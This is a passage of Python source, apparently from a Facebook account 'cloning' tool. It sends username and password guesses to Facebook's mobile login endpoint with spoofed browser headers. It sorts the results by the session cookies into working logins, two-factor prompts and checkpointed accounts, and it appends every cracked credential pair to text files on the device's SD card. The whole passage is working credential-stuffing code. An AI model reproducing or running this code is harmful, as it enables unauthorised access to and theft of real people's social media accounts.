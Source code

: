             "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header = ({"authority": 'free.facebook.com',
            "method": 'GET',
           "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            "cache-control": 'no-cache',
            "pragma": 'no-cache',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform":'"Windows"',
            "sec-fetch-dest": 'manifest',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "user-agent":pro,})
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[7:22]
                os.system("play-audio NAIN_OK.mp3")
                print('\r\033[1;32mAMIRI-OK] '+uid+' [√] '+ps+ '')
                cek_apk(session,coki)
                open('/sdcardAMIRI-OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
            elif 'checkpoint' in log_cookies:
                if 'Enter login code to continue' in log_cookies:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    os.system("play-audio AMIRI_2F.mp3")
                    print('\r\033[1;34mAMIRI-2F] '+uid+' [~] '+ps+' ')
                    open('/sdcardAMIRI-2F.txt', 'a').write(uid+' | '+ps+'\n')
                    twf.append(uid)
                else:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    Red = '\033[1;31m'
                    os.system("play-audio AMIRI_CP.mp3")
                    print(f'\r\033[1;30mAMIRI-CP] '+uid+' [×] '+ps+ ' ')
                    open('/sdcardAMIRI-CP.txt', 'a').write(uid+' | '+ps+'\n')
                    cp.append(uid)
                    break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[MAFYIA 313🔥] [%s] \33[1;97m[OK:%s{hamii2}CP:%s]'%(loop,len(ok),len(cp))), 
        sys.stdout.flush()
        checks(ok,cp)
    except:
        pass
#---------------------[PASS 5 CLONING MENU]---------------------#
def password5():
    user=[]